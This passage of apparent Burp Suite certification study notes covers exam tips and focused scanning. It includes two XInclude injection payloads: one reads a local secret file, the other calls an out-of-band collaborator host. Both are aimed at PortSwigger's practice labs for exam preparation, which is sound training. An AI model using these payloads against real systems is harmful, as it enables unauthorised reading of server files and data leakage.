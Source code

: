 [My Burp Tips](#burp-exam-results)  
  
>I can recommend doing as many as possible [Mystery lab challenge](https://portswigger.net/web-security/mystery-lab-challenge) to test your skills and decrease the time it takes you to ***identify*** the vulnerabilities, before taking the exam.  
>I also found this PortSwigger advice on [Retaking your exam](https://portswigger.net/web-security/certification/exam-hints-and-guidance/retaking-your-exam?tid=SNL7Q8oXE1mjUW1rSgswXSPIjhdLL5210Y-ogEuD1GZVp1w5spKfl5OJjAtj8AAC) very informative.  
>Watch [CryptoCat - Burp Suite Certified Professional (BSCP) Review + Tips/Tricks](https://youtu.be/L-3jJTGLAhc?si=Mze8eY9mjaJl1PWR) for fresh view of the BSCP exam in 2024.  
  
-----
<br><br><a href="https://www.buymeacoffee.com/botesjuan" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-yellow.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>
>Thanks too all for the support by buying me ***coffee***, thanks you so much `\o/`  
  
[My Burp Suite Certified Practitioner certificate.](https://portswigger.net/web-security/e/c/6e42f5738e5b9bf8?utm_source=office&utm_medium=email&utm_campaign=burp-prac-cert-pass-success)  

-----

# Scanning  

>Enumeration of the Web Applications start with initial and directed scanning in time limited engagement.  

[Focus Scanning](#focus-scanning)  
[Scan non-standard entities](#scanning-non-standard-data-structures)  

## Focus Scanning  

>Due to the tight time limit during engagements or exam, [scan defined insertion points](https://portswigger.net/web-security/essential-skills/using-burp-scanner-during-manual-testing) for specific requests.  

![scan-defined-insertion-points](images/scan-defined-insertion-points.png)  

>Scanner detected **XML injection** vulnerability on storeId parameter and this lead to reading the secret Carlos file.  

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///home/carlos/secret"/></foo>
```  

>Out of band XInclude request, need hosted DTD to read local file.  

```xml
<hqt xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include href="http://OASTIFY.COM/foo"/></hqt>
```  

[PortSwigger Lab: Discovering vulnerabilities quickly with targeted scanning](https://portswigger.net/web-security/essential-skills/using-burp-scanner-during-manual-testing/lab-discovering-vulnerabilities-quickly-with-targeted-scanning)  

## Scanning non-standard data structures  

